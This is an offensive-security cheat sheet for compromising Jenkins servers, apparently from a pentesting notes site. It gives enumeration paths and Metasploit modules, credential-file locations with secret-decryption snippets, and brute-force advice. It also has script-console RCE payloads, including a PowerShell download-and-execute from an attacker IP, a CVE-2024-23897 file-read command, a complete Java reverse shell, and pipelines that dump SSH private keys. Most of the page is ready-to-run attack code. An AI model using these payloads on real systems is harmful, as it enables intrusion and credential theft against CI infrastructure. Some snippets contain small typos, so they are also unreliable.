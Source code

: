 # Jenkins

{% hint style="info" %}
Always check Manage Jenkins > Credentials
{% endhint %}

## Enumeration

```sh
# PATHS TO CHECK WITHOUT AUTHENTICATION
/people
/asynchPeople # list the current users
/securityRealm/user/admin/search/index?q=
# Find Jenkins version
/oops
/error
# METASPLOIT MODULES
msf> use auxiliary/scanner/http/jenkins_enum 
msf> use auxiliary/scanner/http/jenkins_command # check unauthenticated RCE
```

## **Interesting files / Credentials / decryption**

```bash
https://looselytyped.com/blog/2017/10/25/uncovering-passwords-in-jenkins/
IMPORTANT: to find more secrets, play locally with docker container
docker run -p 8080:8080 --name myjenkins jenkins
# Set up our local Jenkins and create a user, then look for its files
docker ps # note names column
docker exec -it $container_name bash

https://github.com/hoto/jenkins-credentials-decryptor
$JENKINS_HOME/userContent
$JENKINS_HOME/secrets/initialAdminPassword
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret

# If we have Jenkins authentication, decrypt secrets from Jenkins console
println(hudson.util.Secret.decrypt("{XXX=}")) 
# or: 
println(hudson.util.Secret.fromString("{XXX=}").getPlainText()) 
# where {XXX=} is your encrypted password. This will print the plain password.

https://github.com/hoto/jenkins-credentials-decryptor
# We need access to those files
```

## **Brute force**

**Jenkins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used (even **usernames as passwords** or **reverse** usernames as passwords).

```bash
msf> use auxiliary/scanner/http/jenkins_login

# USE common users as admin, user, root and usernames collected from the system

# USE rockyou-10.txt (common 100-200 passwords)
```

## RCE

Perhaps the best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

{% code overflow="wrap" fullWidth="true" %}
```bash
# WINDOWS
def process = "PowerShell.exe cmd.exe /c dir".execute()
println "Found text ${process.text}"
# -----Good option
def process = "PowerShell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Inv-Pow.ps1')".execute()
println "Found text ${process.text}"

# LINUX
println "ls /".execute().text

# If you need to use quotes and single quotes inside the text. 
# You can use """PAYLOAD""" (triple double quotes) to execute the payload.
```
{% endcode %}

Another way:

```c
New Item > Enter an item name > Access
Build Triggers > Execute Windows batch command
Left menu > Build Now > Console Output
```

### Exploits

CVE-2024-23897

```sh
$ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ connect-node @/etc/passd
```

## Reverse shells

{% code overflow="wrap" fullWidth="true" %}
```bash
# LINUX
String host="10.11.17.165";
int port=4444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# WINDOWS
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
{% endcode %}

## Pipelines -> Retrieve SSH keys (example, authenticated)

<pre data-overflow="wrap" data-full-width="true"><code>https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
<strong>
</strong><strong>
</strong><strong>New Items > Pipeline
</strong>
Script >

pipeline {
	agent any
	stages {
		stage ('Deploy') {
			steps{
				sshagent(credentials : ['1']) {
				    sh 'ssh -o StrictHostKeyChecking=no user@hostname.com "cat /root/.ssh/id_rsa"'
				}
			}
		}
	}
} 

Save > Build Now > Console Output

# Another option if that SSH key is not valid for SSH and we just want to retrieve it
pipeline {
	agent any
	stages {
		stage ('Deploy') {
			steps{
				script {
					keyvar = null
					withCredentials([sshUserPrivateKey(credentialsId: '1', keyFileVariable: 'sshKey')]) {
						keyVar = sh "cat ${sshKey}"
					}
				}	echo "${keyVar}"
			}
		}
	}
} 
</code></pre>
